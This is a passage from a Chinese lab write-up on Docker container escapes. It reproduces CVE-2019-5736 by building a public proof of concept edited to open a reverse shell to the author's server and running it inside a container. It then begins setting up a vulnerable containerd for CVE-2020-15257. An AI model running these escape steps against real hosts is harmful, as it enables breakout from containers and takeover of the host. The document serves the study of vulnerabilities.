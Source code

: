 编译go脚本生成攻击payload
```bash
# 下载POC：
https://github.com/Frichetten/CVE-2019-5736-PoC

# 修改Payload中的内容，写入一个反弹Shell的代码，其中打码部分是我服务器的IP

# 切换到root用户或以root用户身份编译main.go文件
sudo CGO_ENABLED=0 GOOS=linux GOARCH=amd64  go build main.go
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666259195174-75483d88-daf4-446e-83a5-4c16b4e0f9af.png#averageHue=%230f0b0a&clientId=uda7e8c30-3dfd-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=387&id=uc6e8bc50&margin=%5Bobject%20Object%5D&name=image.png&originHeight=581&originWidth=565&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29616&status=error&style=none&taskId=uca27e0f5-1be7-47b4-b8a7-948f9623caf&title=&width=376.6666666666667)![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666256455413-edab1008-a37d-4e4a-b53a-18a898a7da3f.png#averageHue=%23070503&clientId=uda7e8c30-3dfd-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=86&id=u50e2c700&margin=%5Bobject%20Object%5D&name=image.png&originHeight=129&originWidth=517&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8015&status=error&style=none&taskId=ubc286336-e8ab-4722-89f8-443a444061c&title=&width=344.6666666666667)
#### 容器内执行payload
将该payload通过docker cp拷贝到docker容器中（此时可以模拟攻击者获取了docker容器权限，在容器中上传payload进行docker逃逸） 并执行
```bash
docker cp main 2a7d:/home
docker exec -it 2a7d /bin/bash
cd /home/
chmod 777 main
./main
```
之后宿主机再次exec启动docker,观察容器中
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666265273069-f23937db-d90f-4081-8c08-5137982aa1a2.png#averageHue=%232b2321&clientId=uda7e8c30-3dfd-4&crop=0&crop=0&crop=0.6679&crop=0.9286&errorMessage=unknown%20error&from=paste&height=84&id=uea2b6e52&margin=%5Bobject%20Object%5D&name=image.png&originHeight=126&originWidth=530&originalType=url&ratio=1&rotation=0&showTitle=false&size=11394&status=error&style=none&taskId=ubb995387-7c81-40c2-a5aa-726b0cfa506&title=&width=354)
vps成功收到反弹shell
#### 逃逸成功
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666259109958-34c2adef-4922-4f32-90f1-45c173c2693d.png#averageHue=%23191614&clientId=uda7e8c30-3dfd-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=406&id=ub40d0f21&margin=%5Bobject%20Object%5D&name=image.png&originHeight=609&originWidth=1539&originalType=binary&ratio=1&rotation=0&showTitle=false&size=102249&status=error&style=none&taskId=u0ef5124c-62bb-423e-9d73-a7974cd269e&title=&width=1026)
### 后记
这个漏洞打了可能就回不去了......慎用


## [自身漏洞] CVE-2020-15257
### 漏洞原理
containerd是行业标准的容器运行时，可作为Linux和Windows的守护程序使用。在版本1.3.9和1.4.3之前的容器中，容器填充的API不正确地暴露给主机网络容器。填充程序的API套接字的访问控制验证了连接过程的有效UID为0，但没有以其他方式限制对抽象Unix域套接字的访问。这将允许在与填充程序相同的网络名称空间中运行的恶意容器（有效UID为0，但特权降低）导致新进程以提升的特权运行。
### 影响版本
```bash
containerd < 1.4.3
containerd < 1.3.9
```
### 环境搭建
**kali 2021~Centos7.6**
更新apt源
```bash
# 添加 Docker 稳定版本的 yum 软件源
yum-config-manager --add-repo https://download.docker.com/linux/centos/docker-ce.repo
yum clean all
yum makecache
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666581348302-c8b42a34-ac4c-4d17-8121-7d45c84e5186.png#averageHue=%23070605&clientId=u3260bc43-055a-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=331&id=u84d344e3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=496&originWidth=1381&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51038&status=error&style=none&taskId=u09b43e3f-7aa2-4c89-a3f2-d0107389327&title=&width=920.6666666666666)
安装有漏洞的containerd版本
```bash
yum install -y docker-ce-18.09.6-3.el7 docker-ce-cli-19.03.6-3.el7 containerd.io-1.2.4-3.1.el7
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666582436383-b4caa3e1-bdbe-406a-9dde-b9b6bd56c525.png#averageHue=%23050302&clientId=u3260bc43-055a-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=225&id=u5f48751b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=337&originWidth=1022&originalType=binary&ratio=1&rotation=0&showTitle=false&size=29460&status=error&style=none&taskId=u1b156783-41f6-4303-b33d-1e8a259dea5&title=&width=681.3333333333334)
### 漏洞复现
#### 下载容器
```bash
docker pull ubuntu:18.04
```